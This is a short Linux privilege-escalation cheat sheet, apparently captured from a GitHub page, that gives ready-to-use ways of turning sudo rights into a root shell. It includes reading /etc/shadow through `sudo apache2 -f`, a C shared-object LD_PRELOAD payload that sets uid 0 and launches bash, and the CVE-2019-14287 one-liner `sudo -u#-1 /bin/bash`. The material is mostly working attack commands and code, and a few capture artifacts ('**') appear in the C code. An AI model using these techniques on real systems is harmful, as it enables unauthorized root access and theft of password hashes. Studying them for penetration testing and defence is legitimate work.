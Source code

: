 ```bash
sudo -l
```
Shows list of sudo commands you can run without password
## Sudo Shell Escaping
https://gtfobins.github.io/
GTFO Bins provides ways to gain root shell using commands that you have sudo perms for

## Intended Functionality Escalation
Google search `command sudo privilege escalation`
Example:
`sudo apache privilege escalation`

Apache can't run as root, but it does give read access to all files
```bash
sudo apache2 -f /etc/shadow
```

## LD_PRELOAD
Loads library before all other libraries

Save file as x.c:
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    **unsetenv("LD_PRELOAD");
    **setgid(0);
    **setuid(0);
    **system("/bin/bash");
}
```

run the following after saving the above file:
```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
```

Finally, run LD_PRELOAD with a command you have sudo perms for, this example we can sudo apache2
```bash
sudo LD_PRELOAD=/tmp/x.so apache2
```

## sudo 1.8.27 (CVE-2019-14287)
https://www.exploit-db.com/exploits/47502

```bash
sudo -u#-1 /bin/bash
```

## sudo < 1.8.26 (CVE-2019-18634)
https://github.com/saleemrashid/sudo-cve-2019-18634

pwfeedback must be enabled (run `sudo su -` and check to see if asterisks show when you type a password)